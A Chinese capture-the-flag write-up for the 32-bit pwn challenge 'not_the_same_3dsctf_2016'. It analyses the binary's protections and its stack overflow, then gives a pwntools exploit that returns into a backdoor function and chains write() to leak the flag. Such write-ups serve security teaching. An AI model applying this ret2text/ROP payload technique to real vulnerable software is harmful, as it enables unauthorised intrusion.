


# 知识点

ret2text、write


# 题目分析

1. 查看保护情况，32位程序，开启NX保护。

   ```bash
       Arch:     i386-32-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，发现存在栈溢出漏洞。

   

3. 继续分析，发现存在后门函数。但是只将flag读入到全局变量f14g中，没有输出。

   

4. 继续分析，发现程序提供了write函数。我们可以利用ROP将全局变量内容输出。


# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./not_the_same_3dsctf_2016')
elf = ELF('./not_the_same_3dsctf_2016')

backdoor = 0x080489A0
write = elf.sym['write']
flag = 0x080ECA2D

payload = 'A' * 0x2D + p32(backdoor) + p32(write) + p32(0) + p32(1) + p32(flag) + p32(45)
io.sendline(payload)

io.interactive()
```

